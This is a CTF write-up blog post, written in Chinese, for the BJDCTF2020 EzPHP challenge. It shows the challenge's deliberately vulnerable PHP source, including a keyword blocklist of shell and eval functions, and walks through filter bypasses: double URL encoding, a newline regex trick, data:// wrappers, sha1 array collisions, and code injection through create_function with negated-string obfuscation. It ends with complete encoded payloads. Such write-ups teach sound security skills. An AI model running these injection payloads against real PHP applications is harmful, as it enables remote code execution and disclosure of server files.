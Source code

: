 ```yaml
---
title: "BUUCTF Web Writeup 7"
date: 2022-11-03T10:28:03+08:00
lastmod: 2022-11-03T10:28:03+08:00
draft: true
author: "X1r0z"

tags: ['ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


<!--more-->

## [BJDCTF2020]EzPHP

右键注释 base32

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```

`$_SERVER['QUERY_STRING']` 的特性是不会 urldeode, 而 `$_GET` 会进行 urlencode, 因此可以双重编码绕过

`$_REQUEST` 优先解析 `$_POST` 内容, 其实还是看配置文件, 默认情况下先解析了 `$_GET`, 只不过是后来解析的 `$_POST` 把前面的给覆盖掉了

`preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute')` 这句可以在末尾加上 `%0a` 绕过, 因为单行模式下 `$` 不匹配换行符

`file_get_contents` 和 sha1 的绕过就不说了, 很简单

`preg_match('/^[a-z0-9]*$/isD', $code)` 用根命名空间绕过, 例如 `\create_function`

最后的正则里面没有 require (system 也没有, 但好像是被禁用了), 于是通过 require + 伪协议配合取反字符串绕过

`$code('', $arg);` 就是 `create_function` 的形式, 可以闭合大括号来执行任意代码

payload 如下

```php
get: debu=aqua_is_cute
&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=\create_function&flag[arg]=return 0;}require(~%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f);//

post: debu=123&file=123
```

其中 get 要把字母部分 urlencode, 即

```php
%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67[%63%6f%64%65]=%5c%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67[%61%72%67]=%72%65%74%75%72%6e+0;}%72%65%71%75%69%72%65(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%99%93%9E%98%D1%8F%97%8F);//
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211031153793.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211031153820.png)

